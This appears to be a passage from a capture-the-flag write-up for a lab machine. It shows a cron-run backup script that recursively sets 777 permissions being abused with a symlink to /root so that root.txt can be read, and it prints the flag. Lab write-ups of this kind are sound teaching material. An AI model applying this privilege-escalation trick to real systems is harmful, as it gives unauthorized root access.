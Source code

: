 ~~~
{% highlight shell %}
giovanni@teacher:/usr/bin$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
{% endhighlight %}

This script is doing 
1. backup of directory ~/work/courses
2. extract these files in ~/work/tmp
3. giving permission 777 for extracted files.

Then, create a symbolic link to /root in ~/work/tmp/
{% highlight shell %}
giovanni@teacher:~/work/courses$ ln -s /root/ root
ln -s /root/ root

giovanni@teacher:~/work/tmp/courses$ ls -la
ls -la
total 12
drwxrwxrwx 3 root     root     4096 Apr 26 21:42 .
drwxrwxrwx 3 giovanni giovanni 4096 Apr 26 21:38 ..
drwxrwxrwx 2 root     root     4096 Jun 27  2018 algebra
lrwxrwxrwx 1 giovanni giovanni    6 Apr 26 21:28 root -> /root/
{% endhighlight %}

We have to wait for the cron job.<br>
After that, we can achieve the root.txt from the symbolic link.
{% highlight shell %}
giovanni@teacher:~/work/tmp$ cat root/root.txt
cat root/root.txt
4f3a83b42ac7723a508b8ace7b8b1209
{% endhighlight %}
